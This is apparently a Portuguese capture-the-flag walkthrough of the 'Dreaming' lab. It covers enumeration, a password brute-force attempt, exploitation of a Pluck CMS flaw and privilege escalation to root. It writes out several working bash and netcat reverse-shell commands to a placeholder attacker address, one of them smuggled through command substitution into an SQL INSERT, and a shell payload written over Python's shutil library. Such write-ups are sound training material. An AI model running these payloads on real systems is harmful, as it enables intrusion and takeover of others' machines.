

# _**Dreaming CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Nosso primeiro scan não retornou algo de útil  
Vamos adicionar a flag ```-Pn``` para tentarmos novamente  


Temos um resultado diferente  
Um website, vamos investigar  
Procurando por pistas com as ferramentas de desenvolvedor, nada foi encontrado  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar por diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos investigar _/app_  
Temos uma segunda página  
Investigando com as ferramentas de desenvolvedor, temos dois novos diretórios
* **/login.php**
* **/?file=dreaming**

## _**Ganhando acesso**_

Vamos investigar primeiro _/login.php_  
Podemos tentar dois métodos, brute force e SQL Injection  
Primeiro, vamos tentar brute force
> ```bash
> hydra -l '' -P ../wordlists/rockyou.txt [ip_address] http-post-form "/app/pluck-4.7.13/login.php:password=^PASS^&login=Log+in:Password incorrect."
> ```


Após algumas poucas tentativas, fomos barrados de tentar realizar login  
Parece que por este método não iremos conseguir  
Com SQL Injection também não tivemos muito resultado  
Voltando para _/?file=dreaming_, podemos tentar realizar _fuzzing_ com <mark>ffuf</mark>  
> ```
> ffuf -u "http://[ip_address]/app/pluck-4.7.13/?file=FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 404
> ```


Temos alguns resultados  
Antes de conferi-los, vamos utilizar <mark>Burpsuite</mark> para investigar algumas requisições  
Parece que nas requisições, temos um Cookie  


Pesquisando, não obtive informações muito relevantes, além do cookie mudar dependendo de algumas requisições  
Tentando com os resultados de <mark>ffuf</mark>, não foi possível obter nada  
Parece que qualquer tentativa de acessar um arquivo cai nessa mensagem  

  

Buscando por maneiras de explorar pela versão do **Pluck**, encontramos a CVE-2020-29607(https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-29607)  
Procurando pelo exploit, realizamos o _download_ e tentamos executar, mas não foi obtido nenhum sucesso, não sabemos a senha  
Porém, podemos tentar algumas comuns, como:
* password
* password123
* admin
* administrator
Um sucesso! A senha **password** funcionou  


Vamos melhorar isso obtendo um _reverse shell_  
> ```bash
> bash -c 'bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1'
> ```


## _**Escalando privilégios**_
Vamos transferir <mark>LinPEAS</mark> para a máquina-alvo e executar para encontramos uma forma de escalação  
Não se esqueça de ```python3 -m http.server```
> ```bash
> wget http://[ip_address]:[port]/linpeas.sh -O /tmp/linpeas.sh
> ```


Tentando de algumas maneiras, nenhum sucesso foi obtido  
Investigando outros arquivos nos usuários, encontramos um suspeito em _/opt_: **test.py**  
Lendo o arquivo, temos uma senha para o que parece ser o usuário **Lucien**  
Vamos testar via SSH
Temos login com sucesso!  
Vamos obter a primeira flag e continuar nossa enumeração  
Procurando por maneiras de exploração, executamos o comando ```sudo -l```  


Parece que podemos executar algumas coisas como o usuário **death**  
Este script estabelece uma conexão com o banco de dados MySQL, visando o banco de dados da biblioteca  
Se pudermos manipular o valor de qualquer uma dessas variáveis, podemos executar o comando por meio da substituição de comandos  
Essa técnica substitui o próprio comando pela saída de outro comando entre $(), permitindo que o Bash execute o comando e substitua sua saída padrão conforme necessário  


Podemos tentar enumrar algumas coisas do usuário **Lucien**  



Um comando SQL!  
Vamos copiá-lo e executar  
Temos login SQL  
Procurando por informações relevantes através de comandos, mas nada foi encontrado  
Nesta parte, fiquei totalmente perdido e fui procurar por soluções na Internet  
Encontrei que podemos inserir um comando para obter _reverse shell_  
Então, executamos o comando abaixo
> ```bash
> INSERT INTO dreams (dreamer, dream) VALUES ('s4cript', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $[ip_address] $[port] >/tmp/f)');
> ```


Primeiro, ligamos nosso ```netcat``` e em seguida, executamos o comando ```sudo -u death /usr/bin/python3 /home/death/getDreams.py```  


Agora somos o usuário **death**, vamos atrás de nossa flag e uma maneira de escalar privilégios para **morpheus**  
Lembro-me de um arquivo chamar a atenção: **restore.py**  


Investigando como é possível explorar, encontramos a seguinte solução  
O script Python utiliza a biblioteca _shutil_ e, como sabemos, temos acesso de gravação a essa biblioteca  
Vamos injetar algum código Python malicioso na biblioteca  
Quando o script for executado e importar essa biblioteca, ele acionará a execução do nosso código Python  
> ```bash
> echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'\")" > /usr/lib/python3.8/shutil.py
> ```


Agora, vamos atrás da flag  
Executando ```sudo -l```, temos o seguinte  

  

Basta um ```sudo -i``` e temos _root_
Também pegamos a flag de **morpheus**
